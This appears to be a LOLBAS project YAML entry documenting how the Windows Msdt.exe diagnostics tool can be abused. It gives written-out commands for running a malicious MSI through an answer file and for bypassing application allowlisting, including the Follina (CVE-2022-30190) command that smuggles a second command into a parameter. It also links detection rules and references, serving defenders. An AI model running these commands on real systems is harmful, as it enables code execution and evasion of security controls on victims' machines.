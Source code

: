 ```yaml
---
Name: Msdt.exe
Description: Microsoft diagnostics tool
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msdt.exe /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"
    Description: Executes arbitrary commands using the Microsoft Diagnostics Tool and leveraging the "PCWDiagnostic" module (CVE-2022-30190). Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Execute code bypass Application allowlisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\Msdt.exe
  - Path: C:\Windows\SysWOW64\Msdt.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/PCW8E57.xml
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_msdt_answer_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_msdt.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://twitter.com/harr0ey/status/991338229952598016
  - Link: https://twitter.com/nas_bench/status/1531944240271568896
Acknowledgement:
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```


